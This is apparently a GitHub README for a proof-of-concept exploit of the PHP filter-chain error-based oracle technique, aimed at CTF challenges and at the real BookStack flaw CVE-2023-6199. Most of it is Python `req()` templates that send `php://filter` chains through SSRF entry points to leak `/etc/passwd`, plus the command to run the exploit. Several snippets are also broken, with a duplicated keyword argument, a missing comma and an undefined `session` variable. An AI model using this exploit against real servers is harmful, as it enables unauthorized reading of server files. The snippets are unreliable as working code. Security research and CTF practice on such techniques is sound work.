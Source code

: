 # php_filter_chain_oracle_poc
## Overview

The Synacktiv team published an in-depth research article, *[PHP Filter Chains: File Read from Error-Based Oracle](https://www.synacktiv.com/en/publications/php-filter-chains-file-read-from-error-based-oracle)*, initially disclosed at DownUnder CTF 2022. This research was based on a challenge by `@hash_kitten`, where players were tasked with leaking the `/flag` file from a vulnerable PHP-based infrastructure using **error-based oracles**.

Rather than diving into the deep technical internals (which can be reviewed in the **PoC comments**), this guide presents a **Procedural-Oriented Programming (POP) adaptation** of Synacktiv’s original Object-Oriented Programming (OOP) exploit [(available here)](https://github.com/synacktiv/php_filter_chains_oracle_exploit).

This POP-based approach makes it easier to understand the attack’s step-by-step execution, allowing for **customization of key parameters** when adapting the exploit with just one script, especially for CTF challenges.

- This repository includes two Proof-of-Concept (PoC) scripts:
  - **`poc.py`** – The **standard version**, structured with wrapped functions that cleanly separate each phase of the exploit.
  - **`poc_procedure.py`** – A **more procedure-oriented** approach, specifically designed for **CTF scenarios**, allowing step-by-step customization of the exploitation process.

## Scenarios

PHP filter chain exploits typically require the following attack primitives for **Arbitrary File Read**:

### 1. LFR via SSRF

- **Objective:** Exploiting Server-Side Request Forgery (SSRF), so that we can interact with the server using URLs and PHP stream wrappers (`php://filter`).
- **Example:** CVE-2023-6199 in [BookStack](https://fluidattacks.com/blog/lfr-via-blind-ssrf-book-stack/) demonstrates **Local File Read (LFR) via SSRF**.

### 2. Oracle Recovery 

- **Objective:** Capture server responses from oracle-based exploits.
- **Tooling:** Wireshark, tcpdump, or BurpSuite to inspect HTTP responses.
- **Example:** A classic CTF challenge demonstrating this method is available [here](https://github.com/4xura/Bianry4CTF/blob/main/Labyrinth/misc/misc_php_filter_chain_oracle.zip).

## Using the PoC

Before executing the PoC, you need to **customize the `req()` function** to define how the exploit interacts with the target server. Because the specific request method (GET/POST/other) and SSRF entry point will vary depending on the scenario.

A basic example: sending the filter chain via a GET request:

```py
def req(s):
    """ [!] Customize the logic of requests """ 
    file_to_leak = '/etc/passwd'
    chain = f"php://filter/{s}/resource={file_to_leak}"
    
    import requests
    url     = f'http://example.com/ssrf.php?url={chain}'
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36",
        "Cookie"    : "sessionid=abcdefg123456",
    }
    response = requests.get(url=url, headers=headers=headers)
    
    """
    We send the requests and verify the responses
    If status_code == 200, returns False and stop brute forcing, 
    while we should continue when the server returns 500 (True)
    """
    return response.status_code == 500
```

To exploit [CVE-2023-6199](https://nvd.nist.gov/vuln/detail/CVE-2023-6199), the `req()` function can be defined for example:

```py
def req(s):
    """ [!] Customize the logic of requests """ 
    file_to_leak = '/etc/passwd'
    chain = f"php://filter/{s}/resource={file_to_leak}"
    
    # Base64 encode the filter embedded inside an <img> tag 
    import base64
    chain_b64 = base64.b64encode(chain.encode("ascii")).decode("ascii")
    html = f"<img src='data:image/png;base64,{chain_b64}'/>"  
	
    # Send PUT requests to BookStack server 
    import requests
    target = 'https://bookstack.example.com/ajax/page/8/save-draft'
    headers = {
        "User-Agent"	: "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36",
        "X_CSRF_TOKEN"	: "abcdefghijklmn...",
        "Content-Type"	: "application/x-www-form-urlencoded"
        "Cookie"    	: "sessionid=abcdefg123456...",
    }
    data = {
        "name":"axura", 
        "html": html,
    }
    try:
        response = session.put(
                target,
                data=data,
            )       
    	return response.status_code == 500
    
    except requests.exceptions.ConnectionError:
        print("[-] Could not instantiate a connection")
        exit(1)
```

Once the `req()` function is properly configured, simply execute the script with:

```sh
python3 poc.py
```

If something went wrong (which is possible due to special request data conversion, base64 output filtering logic, or unexpected server responses), use the comments in the scripts to debug the exploit process.

>  More info can be found on https://4xura.com/web/poc-scripts-for-php-filter-chain-oracle-exploit-lfr-via-ssrf/

